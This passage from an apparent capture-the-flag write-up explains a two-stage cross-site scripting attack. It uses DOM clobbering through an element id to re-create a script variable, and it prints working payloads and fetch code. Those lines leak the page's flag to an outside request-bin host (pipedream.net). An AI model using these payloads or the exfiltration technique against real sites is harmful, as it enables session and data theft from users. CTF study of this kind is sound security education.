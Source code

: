 Conviniently, there is another comment directly before the flag so the flag and all the scripts at the end 
stay intact.

Now there is no definition for `backgrounds` anymore and we can use a trick to define it again
without using any `script` tags:

If we create a tag with an `id`, the browser will make the `HTMLElement` represented by that tag
globally accessible under its `id`.

So we can just add a tag like this:

```html
<hr id="backgrounds" lang="<script>alert(1)</script>">
```

If we now set the `value` of the `input` to `lang`,
the `backgrounds.js` script will add `backgrounds["lang"]` to the page
and the script will get executed.


## Attempt 3: Putting it all together

Ok, now that we can execute JavaScript on both pages this is the plan:
1. On the index page:
    1. Set the background for the `Stage 2` page using a `POST` request so that it will steal the flag when visited. Sending a request to the `Stage 2` domain is allowed by the `Content Security Policy` and because it's a `POST` request we don't care about `CORS` because we don't need to see the response content. What matters is that the `bg` value will get set on the server.
    2. Navigate to the `Stage 2` page
2. On the `Stage 2` page:
    1. Grab the flag
    2. Navigate to `"enbdblkpmmbod.x.pipedream.net/" + flag` to leak the flag

We can use this code to steal the flag on the `Stage 2` page:

```javascript
location = "//enbdblkpmmbod.x.pipedream.net/" + $("b").text()
```

And this is the value for `bg` to execute that code:

```
lang"><hr id=backgrounds lang="<script>location='//enbdblkpmmbod.x.pipedream.net/'+$('b').text()"><!--
```

Therefore this is the code we want to execute on the first page:

```javascript
fetch(stage2.href, {
    method: "post",
    headers: {'Content-type': 'multipart/form-data'},
    credentials: "include",
    body: `lang"><hr id=backgrounds lang="<script>location='//enbdblkpmmbod.x.pipedream.net/'+$('b').text()"><!--`
});
location = stage2.href;
```
